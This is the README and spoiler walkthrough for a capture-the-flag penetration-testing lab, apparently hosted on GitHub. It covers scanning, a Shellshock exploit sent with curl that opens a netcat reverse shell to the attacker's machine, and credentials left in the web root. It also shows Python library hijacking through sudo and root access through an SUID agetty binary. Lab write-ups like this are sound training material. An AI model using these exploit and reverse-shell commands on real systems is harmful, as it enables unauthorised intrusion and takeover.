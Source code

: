 # Unpleasant
You are in a position where your friends asked you to help them. As a starting
company they want you to "hack" them, so they can fix their problems right in the
beginning. Would you mind showing off your skills? They bring you a machine with
Kali installed and place you on the same network, where their server is.

## Topology
![Game topology](./topology.svg)

Router's IP - 10.32.51.2

## How to play
You will enter Kali Linux environment on attacker machine and
your job is to get `root` account on the server.

There will be 2 flags on this server, `user.txt` to know that you are
inside the server, and `root.txt` to see that you got `root`.

In a walkthrough, there are 2 levels. The first level represents the description
about each stage - named levels. And the second level can be shown using
the spoiler in the walkthrough. You can use the first level, if you just want
to show tasks. And if you get stuck, use spoilers to show hints.

## Disclaimer
This game is only for educational purposes. Unauthorized use of the tools
that are incorporated into the game is illegal. The story is fictitious.

# Walkthrough
If you want to play it without walkthrough, just do not click on spoiler. Otherwise, you can use it if you are stuck somewhere.

<details>
<summary>Click for help</summary>

## Level 1 - Target Discovery
You have now given a VM with Kali Linux 2020.3 preinstalled here. The credentials for this Kali Linux are `kali`:`kali`. You might use these credentials twice
(do not ask me why; I ask myself this question either).

When you are performing an attack, you obviously need to know who you are going
to attack. But we did not provide you with any information about the target.

We can only assure you that the target machine is on your local network.

Now, your job here is to find out what is your network. How can you do that?
> use `ip addr` or `ifconfig`

This level should be pretty easy. You need to find the IP address of your target
machine. Can you do it without a spoiler?

><details>
>  <summary>Spoiler!</summary>
>
>  You can use
>  ```cli
>fping -ag <network> 2>/dev/null
>  ```
>
>  alternatively
>
>  ```cli
>netdiscover -r <network>
>  ```
>
>  or
>
>  ```cli
>nmap -sn <network>
>  ```
>
>  I would suggest using `fping`. It was the fastest that spot the target.
>
>  Attacker's IP (our IP) is 10.32.51.12 and the target's IP is 10.32.51.173.
>
>  Read `man` pages! <br>
>  
></details>

Note: give it some time!

## Level 2 - Target Scanning
After you examine our target, you need to find out what services they are using.
Do they allow the FTP service? Or HTTP? What ports are opened on this target?
For this kind of challenge, we use `nmap`.

> sometimes, higher ports are opened; do not forget to scan all ports,
every time!

You should experiment with the `nmap` tool, as it has some important options to use.
For instance, the `-sS` option will tell `nmap` to make SYN scan, `-sV` to get
the service version, `-O` to guess the OS, etc.

><details>
>  <summary>Spoiler!</summary>
>
>  In general, I would suggest using
>
>  ```cli
>sudo nmap -sS -T4 -A -p- <TARGET_IP> -oA all_ports
>  ```
>
>  It will scan all ports in aggressive mode, perform SYN scan, and save the
>  output in the all_ports file in greppable format (.gnmap), standard
>  output (.nmap), and XML format (.xml).
>
>  On the other hand, while this will scan for all ports,
>  you should be checking for some common ports that *might* be open, e.g. port 80,
>  443,...
>
>  Once again, read `man` page for this tool and find out what these options do!
>
>  Open ports: 22/ssh, 80/http <br>
>  
></details>

## Level 3 - Enumerate your target

We saw earlier our opened ports, probably the most iconic duo. What can you do
with this information? How can this be used? If you know, you know. If not,
check the spoiler.

><details>
>  <summary>Spoiler!</summary>
>
>  When enumerating HTTP/HTTPS, your first step should be checking the
>  `robots.txt` file. It usually contains directories that should not be
>  accessible, and it is a good idea to check if they **really are** inaccessible.
>
>  Meanwhile, in the background, you can create a new bash session and use the
>  `nikto` tool to determine if there are any vulnerabilities. Nikto is a web
>  scanner tool that tries to scan for possible vulnerabilities. Possible usage:
>
>  ```cli
>nikto -h http://<TARGET_IP>
>  ```
>
>  where `-h` is the target IP. Find out more about this tool using `--help` option!
>
>  As our next step should be directory listing. You can choose which
>  tools to use, such as `dirbuster`, `dirb`, `gobuster`, `wfuzz`, `ffuf`, etc.
>  You use wordlist such as `common.txt` or `long.txt` in the
>  `/usr/share/wordlists/dirb/` directory. Example:
>
>  ```cli
>ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<TARGET_IP>/FUZZ -t 50
>  ```
>
>  Remember to **check `man` pages!**
>
>  If you check the details of the `nikto` output, it has detected that our target
>  might be vulnerable to the Shellshock vulnerability:
>
> `+ OSVDB-112004: /cgi-bin/printenv: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).`
>
>  You can find more about this vulnerability at these links:
>  https://nvd.nist.gov/vuln/detail/CVE-2014-6271
>  https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf
>
>  TL;DR:
>    When an HTTP request is sent to the server on a specific link,
>    a vulnerable bash version processes trailing strings after function
>    definitions in the values of environment variables.
>
>  So, with this knowledge, you can put bash code inside the HTTP request
>  header, and it will process it. Example:
>
>  ```cli
>curl -H "X-Frame-Options: () { :;}; echo 'hello'" <link>
>  ```
>
>  Although we did not see the response, we can try to create
>  a reverse shell between us and the server with this knowledge.
>
>  The term **reverse shell** means that the actual target will try to connect
>  to **our** machine on a specific port. We need the IP address (of our machine)
>  and open port. Why can we not just connect to the opened port on the target
>  machine?
>
>  We can, but reverse shells are much more used, because their
>  detection is less possible than using **bind shell** (connecting to
>  the opened port on the target machine).
>
>  We have 2 options for this to exploit: craft our payload, which
>  we can easily do using the `curl` command, or use the `metasploit` module
>  `exploit/multi/http/apache_mod_cgi_bash_env_exec` that would do the job.
>
>  I have used the `curl` way, because I find Metasploit too
>  easy for beginners to use. The more experienced you are in exploiting without
>  Metasploit, the better you can perform, and that is my opinion.
>
>  NOTE: when using `metasploit` module, do not forget to set all needed variables
>
>
>  First, we need to open port on our attacker machine. We can do this by using
>  `nc` command. Open the new terminal windows (shortcut CTRL + SHIFT + T) and
>  write down this line:
>
>```cli
>nc -lvnp 4444
>```
>
>  `-l` - listen; `-v` - verbose output; `-n` - don't resolve name, `-p` - specify
> port
>
>  Then, we can send our code to connect to our machine. We need to specify
>  options `-e` to execute `/bin/bash` after connecting to our attacker's machine
>  and the opened port. In this case, I have chosen this payload:
>
>```cli
> curl -H "User-Agent: () { :;}; /bin/nc -e /bin/bash <KALI_IP> <KALI_PORT>" http://<TARGET_IP>/cgi-bin/printenv
>```
>  <br>
>  
></details>

### Upgrade our shell - get used to it!
After using the `nc` command,
the shell we created is very unstable and uncomfortable. We can't scroll among
commands in the shell, no tab-completing, no job controlling,
no error displaying, etc. We can try to upgrade our shell.

When upgrading the shell, there are a few methods used.
My most used method is using `python`. It is easy, simple, and fast to write.
`which python` will find out if python is installed. Sometimes, we need to
check for `python3` and not `python`. Be aware of that!

We spawn a new shell using this command:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

This will create a new bash session, but we still need to do some configuration.
Stop this process using CTRL + Z, and after that we need these parameters
from your Kali machine:

`stty -a` - to get the number of rows and the number of columns currently used
(for better resolution and display settings in terminal)

`echo $TERM` - get our current terminal

After examining these values, we can now enter back into our shell with limited
functionalities. <br>
**WARNING:** if you are using other shell than zsh (`echo $SHELL`), you need
to enter these commands separately, i.e. on one line each!

`stty raw -echo; fg` - go back to our shell

When we are back, press enter, and then we need to enter values that we noted.
```
export TERM=xterm-256color
```
This is the value from the `echo $TERM` output;
```
export SHELL=/bin/bash
```
since we're using bash.
```
stty rows <ROWS> columns <COLUMNS>
```
ROWS - the number for rows, same goes for COLUMNS;

"I'm in!"

We can now look over here, using tab-completion, scrolling, and many other things,
which are available, since we upgraded the shell.

More on upgrading this shell: <br>
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/ <br>
https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/


## Level 4 - Don't try harder - enumerate harder
Your job here is to find something that you can use for privilege escalation.

One of the first things you should check is whether `sudo -l` is enabled. This
command will check if our user has anything allowed to run without a `sudo`
password. Unfortunately, this is not the case, and we need to look for something
else.

The next step could be checking the `/etc/crontab` file. This file contains
commands that are planned to execute in an exact period. Once again, we did not
find anything interesting. :( What now?

What is the content of the `user.txt` flag?

><details>
>  <summary>Spoiler!</summary>
>  
>  Do you still remember, that we exploited the vulnerability using the website?
>  Check for files in the web directory! Credentials, credentials, credentials!
>  Although it looks like a default web application that just "spawns," it's good
>  to enumerate it; you would be surprised what you could find there (e.g. MySQL
>  credentials, or something else).
>  
>  We find the file `credentials.txt` in the `/var/www/html` directory, that
>  gives us the credentials `michael:WindOfChange`
>
>  You can log in with these credentials using the `ssh` command.
>```cli
>ssh michael@<TARGET_IP>
>```
>  write the password `WindOfChange`
>  and we're now michael!
>
>
>
></details>


## Level 5 - Straight to the top; unless...?
Cool, now that you are the "normal" user, what does it take you to become a more
privileged user? You need to use the same techniques used previously, search for
the same things, but now you can do some more things... Can you do it without
spoiler? :)

><details>
>  <summary>Spoiler!</summary>
>
>  From the `sudo -l` command, we find out that we can run the command
>  `/usr/bin/python3 /home/michael/try_it.py` as user john.
>  
>  ### Python Library Hijacking
>  In our home directory, we have a file called try_it.py. It is importing the
>  library "random" and calling it the function from it. This program will print
>  the text that is hardcoded. Let's take a closer look.
>
>  In our program we have "import random". The way that Python import
>  files/libraries is that it first lists the directory where the file is located,
>  and then searches for the script in PYTHONPATH.
>
>  More on this: <br>
>  https://docs.python.org/3/tutorial/modules.html#the-module-search-path
>
>  So, with that, we can try to create a new file called random.py and write
>  the line that we used to upgrade our shell! In the script, do not forget to add
>  a shebang (`#!/usr/bin/python3`) in the script and write down the line
>  `import pty;pty.spawn("/bin/bash")`.
>  We just need to ensure that we added the right lines to spawn a shell.
>
>  The content of the random.py file in the same directory, where we have try_it.py:
>```py
>#!/usr/bin/python3
>import pty
>pty.spawn("/bin/bash")
>```
>  
>  After that, we need to figure out, how to execute the command as another user.
>  Since `runuser` or `su` didn't work out, we finally got the right command!
>```cli
>sudo -u john /usr/bin/python3 /home/michael/try_it.py
>```
>  Now we're the user john! :)
>
></details>

## Level 6 - got root?
Let me introduce you to John, probably the most privileged user, but still
not root.

This level should be fairly easy, if you know what to look for.

What is the content of the `root.txt` flag?

><details>
>  <summary>Spoiler!</summary>
>
>  A little surprise in home directory :)
>  In john's home directory, we have a binary called agetty. This binary has an
>  SUID bit set. We can check, if this binary is not in the list of the binaries,
>  that can be used for privilege escalation. The list is on this website:
>  https://gtfobins.github.io/
>
>  The binary agetty is listed right as a second one. This website tells us,
>  if this binary file has an SUID set, it is possible to escalate our privileges
>  It also tells us the command to use for this privilege escalation,
>  so let's try it! We made a little change, so we spawn a bash session, and not
>  a simple shell session.
>```cli
>./agetty -o -p -l /bin/bash -a root tty
>```
>
>  Now, we got a new bash session. To check, if we are really on a root account,
>  use the `id` command.
>
>  Search for the root.txt file:
>```cli
>find / -type f -name "root.txt" -exec cat {} \; 2>/dev/null
>```
>
></details>

</details>
